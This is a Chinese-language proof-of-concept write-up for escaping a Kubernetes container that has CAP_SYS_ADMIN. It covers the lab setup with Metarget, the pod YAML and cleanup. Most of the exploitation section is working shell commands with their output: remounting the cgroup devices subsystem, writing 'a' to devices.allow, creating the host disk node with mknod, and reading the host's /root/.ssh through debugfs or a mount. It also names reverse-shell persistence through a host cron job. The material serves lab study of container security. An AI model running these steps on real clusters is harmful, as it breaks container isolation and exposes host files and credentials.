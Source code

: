 # 挂载重写 cgroup devices.allow 导致容器逃逸

## 漏洞描述

在具有 `CAP_SYS_ADMIN` 权限的容器中，通过挂载并重写容器内的 `/sys/fs/cgroup/devices/devices.allow` 文件，解除 cgroup 设备访问限制，从而逃逸特权容器并访问宿主机内的文件。

devices 子系统用于配制允许或者阻止 cgroup 中的 task 访问某个设备，起到黑白名单的作用，主要包含以下文件：

1. devices.allow：cgroup 中的 task 能够访问的设备列表，格式为 `type major:minor access`
2. devices.deny：cgroup 中任务不能访问的设备，和上面的格式相同
3. devices.list：列出 cgroup 中设备的黑名单和白名单

漏洞利用原理：

1. 创建空目录挂载 cgroup devices 子系统
2. 确定当前容器对应的子 cgroup 位置
3. 设置其 devices.allow 文件为 `a`，表示所有设备均可访问
4. 获得宿主机的设备 major 和 minor
5. 通过 mknod 根据设备 major 和 minor 手动创建设备文件
6. 利用 debugfs 或直接挂载设备文件访问宿主机文件
7. 设置宿主机定时任务等方式反弹 shell

参考链接：

- https://github.com/cdk-team/CDK/wiki/Exploit:-rewrite-cgroup-devices
- https://blog.nsfocus.net/docker/

## 环境搭建

基础环境准备（Docker + Minikube + Kubernetes），可参考 [Kubernetes + Ubuntu 18.04 漏洞环境搭建](https://github.com/Threekiii/Awesome-POC/blob/master/%E4%BA%91%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E/Kubernetes%20%2B%20Ubuntu%2018.04%20%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA.md) 完成。

本例中各组件版本如下：

```
Docker version: 18.09.3
minikube version: v1.35.0
Kubectl Client Version: v1.32.3
Kubectl Server Version: v1.32.0
```

通过 yaml 文件创建漏洞环境：

```
kubectl apply -f k8s_metarget_namespace.yaml
kubectl apply -f cap_sys_admin-container.yaml
```

执行完成后，K8s 集群内 `metarget` 命名空间下将会创建一个名为 `cap-sys-admin-container` 的 pod：

```
kubectl get pods -n metarget
-----
NAME                      READY   STATUS    RESTARTS   AGE
cap-sys-admin-container   1/1     Running   0          55s
```

![](images/挂载重写%20cgroup%20devices.allow%20导致容器逃逸/image-20250603142938639.png)

## 漏洞复现

进入 pod 进行漏洞利用：

```
kubectl exec -n metarget -it cap-sys-admin-container -- /bin/bash
```

- 第一步，创建空目录挂载 cgroup devices 子系统：

```
root@cap-sys-admin-container:/# mkdir /tmp/dev && mount -t cgroup -o devices devices /tmp/dev
```

- 第二步，确定当前容器对应的子 cgroup 位置：

```shell
# 通过 docker info | grep -i cgroup 查看 Cgroup Driver
# Cgroup Driver: cgroupfs 驱动则执行：
root@cap-sys-admin-container:/# cat /proc/self/cgroup | grep docker | head -1 | sed 's/.*\/docker\/\(.*\)/\1/g'
f873f626e2cbc74eeae5c2b5c624f7fe1ed92e26b37a244d30d70403a1802ee8/kubepods/besteffort/pod0b4bfb60-28b0-42bf-8ec4-6907aa6fe271/8233389d820eb154868c9d14dfe6c902202003b24e53a77811ecf9c8daf0776a
root@cap-sys-admin-container:/# cd /tmp/dev/docker/f873f626e2cbc74eeae5c2b5c624f7fe1ed92e26b37a244d30d70403a1802ee8/kubepods/besteffort/pod0b4bfb60-28b0-42bf-8ec4-6907aa6fe271/8233389d820eb154868c9d14dfe6c902202003b24e53a77811ecf9c8daf0776a

# Cgroup Driver: systemd 驱动则执行：
mount -l | grep kubepods
-----
cgroup on /sys/fs/cgroup/systemd/kubepods.slice/kubepods-burstable.slice/xxx type cgroup (rw,nosuid,nodev,noexec,relatime,xattr,release_agent=/usr/lib/systemd/systemd-cgroups-agent,name=systemd) 
-----
cd /tmp/dev/kubepods.slice/kubepods-burstable.slice/xxx
```

- 第三步，设置其 devices.allow 文件为 `a`，表示所有设备均可访问：

```
root@cap-sys-admin-container:/tmp/dev/docker/f873f626e2cbc74eeae5c2b5c624f7fe1ed92e26b37a244d30d70403a1802ee8/kubepods/besteffort/podeda81e29-d18b-
45e5-af93-1ba96c6f02e1/979a724c1ad544b8bbd8bbb8ec6ce2ca1f61ffe3ddd9088c8242d7238a7a647b# echo a > devices.allow && cd /tmp
```

- 第四步，获得宿主机的设备 major 和 minor：

```
root@cap-sys-admin-container:/tmp# cat /proc/self/mountinfo | grep /etc | awk '{print $3,$8}' | head -1
8:1 ext4
```

- 第五步，通过 mknod 根据设备 major 和 minor 手动创建设备文件：

```
root@cap-sys-admin-container:/tmp# mknod host b 8 1
```

- 第六步，利用 debugfs 或直接挂载设备文件访问宿主机文件：

```
root@cap-sys-admin-container:/tmp# debugfs host
debugfs: ls  -l /root/.ssh
 6291704   40755 (2)      0      0    4096 21-Apr-2025 09:59 .
 6291457   40700 (2)      0      0    4096  3-Jun-2025 06:26 ..
 6291718  100644 (1)      0      0     553 21-Apr-2025 09:59 authorized_keys
```

```shell
# 如果是 ext2/ext3/ext4 文件系统，可以用 debugfs 查看目录
# 如果是 xfs 文件系统，不支持 debugfs，需要挂载
root@cap-sys-admin-container:/tmp# mkdir /tmp/host_dir && mount host /tmp/host_dir
root@cap-sys-admin-container:/tmp# ls -l /tmp/host_dir/root/.ssh
```

![](images/挂载重写%20cgroup%20devices.allow%20导致容器逃逸/image-20250603152409473.png)

也可以通过 [CDK](https://github.com/cdk-team/CDK) 复现。下载 CDK ，将其传入容器 ：

```
kubectl cp cdk cap-sys-admin-container:/ -n metarget
kubectl exec -n metarget -it cap-sys-admin-container -- chmod +x /cdk
```

![](images/挂载重写%20cgroup%20devices.allow%20导致容器逃逸/image-20250603143413513.png)

重写当前容器内的 `/sys/fs/cgroup/devices/devices.allow`，逃逸特权容器访问宿主机内的文件：

![](images/挂载重写%20cgroup%20devices.allow%20导致容器逃逸/image-20250603143435283.png)

## 环境复原

```
kubectl delete -f cap_sys_admin-container.yaml
kubectl delete -f k8s_metarget_namespace.yaml
```

## YAML

[cap_sys_admin-container.yaml](https://github.com/Metarget/metarget/blob/master/vulns_cn/configs/pods/cap_sys_admin-container.yaml)

```
apiVersion: v1
kind: Pod
metadata:
  name: cap-sys-admin-container
  namespace: metarget
  annotations:
    container.apparmor.security.beta.kubernetes.io/ubuntu: unconfined
spec:
  containers:
  - name: ubuntu
    image: ubuntu:latest
    imagePullPolicy: IfNotPresent
    securityContext:
      capabilities:
        add: ["SYS_ADMIN"]
    # Just spin & wait forever
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
```
